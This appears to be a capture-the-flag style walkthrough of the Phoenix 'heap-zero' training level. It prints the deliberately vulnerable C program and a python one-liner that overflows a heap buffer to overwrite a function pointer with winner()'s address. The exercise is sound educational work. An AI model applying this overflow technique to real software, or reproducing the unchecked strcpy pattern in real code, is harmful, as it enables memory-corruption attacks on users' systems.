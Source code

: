 ```yaml
---
title: "phoenix - heap 0"
classes: wide
tag: 
  - "heap overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for heap zero from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list our files using ```ls -la```,

```c
user@phoenix-amd64:~$ cp /opt/phoenix/amd64/heap-zero .
user@phoenix-amd64:~$ ls -la
total 44
drwxr-xr-x 2 user user  4096 Jun 16 12:12 .
drwxr-xr-x 3 root root  4096 Jan 13  2019 ..
-rw-r--r-- 1 user user   220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user  3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user   675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 21680 Jun 16 12:12 heap-zero
```

Lets analyse the file type of our binary using ```file``` command,

```c
user@phoenix-amd64:~$ file heap-zero
heap-zero: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

This is a ```not stripped``` binary, so we can read it

Lets try running it,

```c
user@phoenix-amd64:~$ ./heap-zero
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
Please specify an argument to copy :-)
user@phoenix-amd64:~$ ./heap-zero monish
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0x7ffff7ef6010, fp is at 0x7ffff7ef6060, will be calling 0x400ace
level has not been passed - function pointer has not been overwritten
```

It is getting its input from ```argv``` and it expects us to overwrite the function pointer

Lets view the source code of this binary for proper understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};

void winner() {
  printf("Congratulations, you have passed this level\n");
}

void nowinner() {
  printf(
      "level has not been passed - function pointer has not been "
      "overwritten\n");
}

int main(int argc, char **argv) {
  struct data *d;
  struct fp *f;

  printf("%s\n", BANNER);

  if (argc < 2) {
    printf("Please specify an argument to copy :-)\n");
    exit(1);
  }

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  strcpy(d->name, argv[1]);

  printf("data is at %p, fp is at %p, will be calling %p\n", d, f, f->fp);
  fflush(stdout);

  f->fp();

  return 0;
}
```

Here there are two relevant functions ```winner()``` and ```nowinner()```,

And variables from the ```struct``` are allocated dynamically,

```c
struct data *d;
struct fp *f;
```

```c
d = malloc(sizeof(struct data));
f = malloc(sizeof(struct fp));
f->fp = nowinner;
```

Here ```f->fp``` is pointing to ```nowinner()```

To execute this program successfully, we have to overwrite it with ```winner()``` function

Similar like stack, ```d``` and ```f``` are allocated near by near in heap

```c
struct data {
  char name[64];
};

struct fp {
  void (*fp)();
  char __pad[64 - sizeof(unsigned long)];
};
```

From this we can say ```d``` has a size of ```64 bytes```

```c
strcpy(d->name, argv[1]);
```

Here ```strcpy()``` is used to store data in ```d->name``` which is perfect to cause a overflow

Taking a look at the addresses for our functions in 64 bit,

```c
user@phoenix-amd64:~$ nm heap-zero  | grep winner
0000000000400ace T nowinner
0000000000400abd T winner
```

These addresses have ```\x0a``` (badchar), so lets try it on 32  bit

```c
user@phoenix-amd64:~$ file heap-zero
heap-zero: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1, not stripped
```

Now lets check the addresses of our functions,

```c
user@phoenix-amd64:~$ nm heap-zero  | grep winner
0804884e T nowinner
08048835 T winner
```

Lets run it,
```c
user@phoenix-amd64:~$ ./heap-zero AAAAAAAAAAAAA
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x804884e
level has not been passed - function pointer has not been overwritten
```

```0x804884e``` is the address of ```nowinner()```

We have to overwrite it with the address of ```winner()```

Given ```data is at 0xf7e69008, fp is at 0xf7e69050```

Distance between these two,

```c
>>> print(0xf7e69050-0xf7e69008)
72
```

So if we pass 72 bytes of junk into ```data```, we can enter ```fp```

Lets try it,

```c
user@phoenix-amd64:~$ ./heap-zero $(python -c "print('A'*72+'B'*4)")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x42424242
Segmentation fault
```

As you can see here, we overwrote the ```fp``` with ```BBBB```

Now lets pass the address of ```winner()```,

```c
user@phoenix-amd64:~$ ./heap-zero $(python -c "print('A'*72+'\x35\x88\x04\x08')")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x8048835
Congratulations, you have passed this level
```

Done! We have completed "heap-zero" challenge



